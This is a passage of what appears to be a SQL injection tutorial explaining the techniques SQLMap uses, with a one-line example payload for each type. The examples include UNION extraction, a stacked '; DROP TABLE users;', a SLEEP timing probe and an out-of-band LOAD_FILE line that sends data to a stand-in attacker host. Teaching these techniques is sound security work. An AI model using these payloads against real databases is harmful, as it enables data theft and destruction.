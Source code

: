 | **MySQL**                | **PostgreSQL** | **Oracle**  |
| ------------------------ | -------------- | ----------- |
| **Microsoft SQL Server** | **Sybase**     | **Vertica** |
| **IBM DB2**              | **Firebird**   | **MonetDB** |
``Error-based SQLi`` is considered as faster than all other types, except ``UNION`` query-based, because it can retrieve a limited amount (e.g., 200 bytes) of data called "chunks" through each request.
#### Union query
Example of UNION query-based SQLi:
```sql
UNION ALL SELECT 1,@@version,3
```
With the usage of ``UNION``, it is generally possible to extend the original (``vulnerable``) query with the injected statements' results.

This way, if the original query results are rendered as part of the response, the attacker can get additional results from the injected statements within the page response itself. 

This type of SQLi is considered the fastest, as, in the ideal scenario, the attacker would be able to pull the content of the whole database table of interest with a single request.
#### Stacked queries
Example of Stacked Queries:
```sql
; DROP TABLE users;
```
Stacking SQL queries, also known as the "piggy-backing," is the form of injecting additional SQL statements after the vulnerable one. 

In case that there is a requirement for running non-query statements (e.g. ``INSERT``, ``UPDATE`` or ``DELETE``), stacking must be supported by the vulnerable platform (e.g., ``Microsoft SQL Server`` and ``PostgreSQL`` support it by default).

SQLMap can use such vulnerabilities to run non-query statements executed in advanced features (e.g., execution of OS commands) and data retrieval similarly to time-based blind SQLi types.
#### Time-based blind SQLi
Example of Time-based blind SQL Injection:
```sql
AND 1=IF(2>1,SLEEP(5),0)
```````
The principle of ``Time-based blind SQLi`` is similar to the ``Boolean-based blind SQLi``, but here the ``response time is used asi`` source for the differentiation between ``TRUE`` or ``FALSE``.
* ``TRUE`` response is generally characterized by the noticeable difference in the response time compared to the regular server response
* ``FALSE`` response should result in a response time indistinguishable from regular response times

``Time-based blind SQLi`` is considerably slower than the ``boolean-based blind SQLi``, since queries resulting in ``TRUE`` would delay the server response. This SQLi type is used in cases where ``Boolean-based blind SQLi`` is not applicable. 

For example, in case the vulnerable SQL statement is a non-query (e.g. ``INSERT``, ``UPDATE`` or ``DELETE``), executed as part of the auxiliary functionality without any effect to the page rendering process, ``time-based SQLi`` is used out of the necessity, as ``Boolean-based blind SQLi`` would not really work in this case.
#### Inline queries
Example of Inline Queries:
```sql
SELECT (SELECT @@version) from
```
This type of injection embedded a query within the original query. Such SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way. Still, SQLMap supports this kind of SQLi as well.
#### Out-of-band SQLi
Example of Out-of-band SQL Injection:
```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```